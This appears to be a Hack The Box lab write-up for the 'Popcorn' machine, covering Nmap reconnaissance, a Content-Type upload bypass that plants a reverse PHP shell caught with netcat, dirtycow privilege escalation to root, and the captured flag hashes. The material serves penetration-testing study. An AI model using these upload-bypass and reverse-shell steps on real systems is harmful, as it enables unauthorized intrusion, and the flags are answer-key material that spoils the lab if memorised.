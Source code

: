 # Popcorn
## Reconnaissance

* Performed TCP scans using Nmap. (Did not include UDP and other TCP scans)
```
sudo nmap -sC -sS -sV -A 10.10.10.6
```
* The results of the Nmap show that TCP port 22 and 80 are open. Target machine OS is Ubuntu Linux.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|WAP|printer|phone|storage-misc|remote management
Running (JUST GUESSING): Linux 2.6.X|2.4.X (93%), AVM embedded (92%), Canon embedded (92%), Google Android 2.X (92%), LG embedded (92%), Epson embedded (91%), Avocent embedded (90%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:avm:fritz%21box_fon_wlan_7240 cpe:/h:canon:imagerunner_advance_c3320i cpe:/h:canon:imagerunner_advance_c3325 cpe:/o:google:android:2.3.5 cpe:/h:lg:n4b2nd4 cpe:/h:epson:wf-2660 cpe:/o:linux:linux_kernel:2.4.20
Aggressive OS guesses: Linux 2.6.17 - 2.6.36 (93%), AVM FRITZ!Box FON WLAN 7240 WAP (92%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (92%), Android 2.3.5 (Linux 2.6) (92%), Linux 2.6.30 (92%), Linux 2.6.32 (92%), Linux 2.6.35 (92%), LG N4B2ND4 NAS device (Linux 2.6) (92%), Epson WF-2660 printer (91%), Linux 2.4.20 (Red Hat 7.2) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Web enumeration
```
dirbuster for http://10.10.10.6
Threads:30
extensions:php,aspx,asp,txt
not recursive
```
* Webscan Results
```
```

* Access http://10.10.10.6/test.php, which runs phpinfo().
```
System 	Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
Build Date 	May 2 2011 22:56:18
Server API 	Apache 2.0 Handler
Virtual Directory Support 	disabled
Configuration File (php.ini) Path 	/etc/php5/apache2
Loaded Configuration File 	/etc/php5/apache2/php.ini
Scan this dir for additional .ini files 	/etc/php5/apache2/conf.d
additional .ini files parsed 	/etc/php5/apache2/conf.d/gd.ini, /etc/php5/apache2/conf.d/mysql.ini, /etc/php5/apache2/conf.d/mysqli.ini, /etc/php5/apache2/conf.d/pdo.ini, /etc/php5/apache2/conf.d/pdo_mysql.ini
PHP API 	20041225
PHP Extension 	20060613
Zend Extension 	220060519
Debug Build 	no
Thread Safety 	disabled
Zend Memory Manager 	enabled
IPv6 Support 	enabled
Registered PHP Streams 	https, ftps, compress.zlib, compress.bzip2, php, file, data, http, ftp, zip
Registered Stream Socket Transports 	tcp, udp, unix, udg, ssl, sslv3, sslv2, tls
Registered Stream Filters 	zlib.*, bzip2.*, convert.iconv.*, string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed 
```

## Delivery & Exploitation

* Access http://10.10.10.6/torrent. Runs Torrent Hoster.
* Tried uploading php file but failed. Uploaded kali linux torrent file instead.
![image](https://raw.githubusercontent.com/kookiecrack/images/main/torrent.png)

* Tried uploading php file for screenshot image but failed. Used burp suite to intercept the HTTP packets.
```
Change 'Content-Type: application/x-php' to 'Content-Type: image/png' and use Repeater to send HTTP POST request.
Upload success!
Access reverse php shell from http://10.10.10.6/torrent/uploads
```
![image](https://raw.githubusercontent.com/kookiecrack/images/main/Burp.png)

* Reverse php web shell obtained

```
kali@kali:~/HTB/popcorn$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 45090
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:09:19 up  7:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation
* Google search for linux 2.6.31 local privilege escalation revealed potential 'dirtycow' exploit. 
* Successfully priv esc using [FireFart's exploit](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
* Transferred exploit using wget and python SimpleHTTPServer
```

$ cat user.txt
7f7996604baa821f2644bb0da8fa1cd8
firefart@popcorn:/tmp# whoami
whoami
firefart
firefart@popcorn:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/tmp# cat /root/root.txt
cat /root/root.txt
9cb1e1150e46be0cc7c0247c7dff7b9a
firefart@popcorn:/tmp# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:33:3f  
          inet addr:10.10.10.6  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:333f/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:333f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1276815 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1171211 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:326685100 (326.6 MB)  TX bytes:286452794 (286.4 MB)
          Interrupt:18 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1288 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1288 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:131698 (131.6 KB)  TX bytes:131698 (131.6 KB)
```
